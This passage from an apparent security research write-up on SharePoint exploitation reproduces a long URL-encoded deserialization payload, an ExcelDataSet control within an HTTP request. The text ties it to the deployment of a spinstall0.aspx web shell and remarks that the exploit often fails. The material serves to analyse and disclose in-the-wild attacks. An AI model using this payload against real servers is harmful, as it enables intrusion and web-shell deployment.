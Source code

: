 ```http request
GR%2F6Fxva2qP%2BG%2Fx2VH1jfSfg8zXpA%2BL3K8meH9h%2FBfynHh7nT5x9DvHBP%2BQ3VPVZ3j%2Bg%2BOE%2F8StS82Ef%2B4JrY34G%2F8Ff9Ki0f6WqvkPED%2F%2B72n7%2FInwx30hU%2FkZKP%2Bj8Rv23weuTfuOaFvC%2FC7g%2FoP4G8fVL%2FDAeqfsjUukf4Qd%2BEr9RHzg7G6Hqz8j%2BcX3aP0nfPL7%2FsPcP%2BbHoDI0ecGnYutJniq%2Bv8C%2FzP1PnG%2BzvdH8D%2BF8r%2F8k%2B6sdDfJR%2FxE%2F4YbypzkfU%2F8aayu92j5%2BBvo7GwW3SX%2FCD9B3zH9lvl%2Fkt7%2F9kSp8qS%2B7vk3L%2FVPdn4B%2FhP3C4P6X8kr4hf3T%2FqFHqZ4kv%2B0%2F29%2FypcP9k%2B9d8H6tiLYO6Lejtd94P43uFjRauN2WBscyo6FliDtdBs34deVILzctJ1%2B426zvjcO%2FPMeUC59VhYsp%2BMOjMfG87S3PB9xJ75uUiMOXDO%2B24puPVtLiYrA%2F3kbNOFuT7%2B8gXq74nl34uH3peLY%2F0L%2Fr6t87vqJukkw7HbE%2FpV4s%2Fa%2F7NsXEejGunFptu2x9Yu8DTR9H1xExM8RBUpNYqnGGcJ1ki6BppxFUri7zOIrVrmj%2FoFMHAcdOBkfVzsQzs2RJ%2FT6OKc%2Bt7etb0PrNn1O02%2FreaXfFd%2BZ4%2Fik9EhfOQ2v4N%2Bb6od44YFHLlV%2Bq7f%2BT93hvxf8O2Y2bDoFJbA%2BOZX%2B2u3OvO2q%2FIXfywuT%2Fw8e%2F5LON%2BQ8y6iQbWOKp2FqHXRiwB3aMm7l9ayhZsbu7tqlwk1%2FIh6OurYCC1OBcL%2BGYnHs2zboJB5kaVZRaN9ZG1S4aW19WtcavW3TlZt3lfa9z71u%2F0bMls0r13Y%2FZtnDf%2BHdeWtKhOtIZTV3VL9%2FEbl0eO5DJHjYwTE76OahbVH3LSifJg7VboGZVYhIPZkMcnw3VkOll8H%2FNaqua2x5p0a8PIczt2ZTvEZ1yDDWnN4N%2BQ8bVn%2FdBLVqgtyu1DY6LTvCzOuP5tB3Gzdmio%2FapcBlSzmxbVq1Gvd9vN43MYrnlPx4Fow9pkKW26oF8mC3qz9gwuGn3SmaQxfKpmPvvsne1LWvru0V4BfIoovwSfs3H8ULPj%2FHIcQMfaQuH%2BTjzxPO%2Fzz2ZKY6dGQz1%2FUnHw%2B%2BTwLKlhc7AmP3ip65%2F5Zwx53hx6rnV37Xt69hKTjvaeHV9IC3SP8XWiwt51R8bBh%2B%2BN59EDI9Mk96%2FFwe7ev3BgraN%2F%2BHOySZc5dF%2F%2BdtjnjsrB9ObqvHy8%2Fexv0%2Fzgo%2FQr9aWGdvlg%2FNGj7sfffDh9e3X%2B8YXP%2BsbOd3%2FF4Or8O7%2BA8dWv9sw2xRe%2F1EPfaHnyqzxf%2FjbM1fkn39x5%2B%2Bf%2FAT299nCZKQAA%22+DataTable-CaseSensitive%3D%22false%22+runat%3D%22server%22%3E%0A%3C%2FScorecard%3AExcelDataSet%3E%0A++%3C%2Fdiv%3E%0A%3C%2FProgressTemplate%3E%0A%3C%2Fasp%3AUpdateProgress%3E%0A++++
```

It checked out with Eye.security's assessment, deploying a `spinstall0.aspx`
from the same set of IPs, feel free to read more about this payload on
[their blog post](https://research.eye.security/sharepoint-under-siege/).

# The grind

If you try it, there's a good chance the exploit won't work, or will partially
work.

We knew all the SharePoint servers on the Internet have been sprayed with it,
and yet, only a small quantity of them was showing the file present.

_This is not its final form, this is not the full story_ - we thought.
![finalform.png](finalform.png)
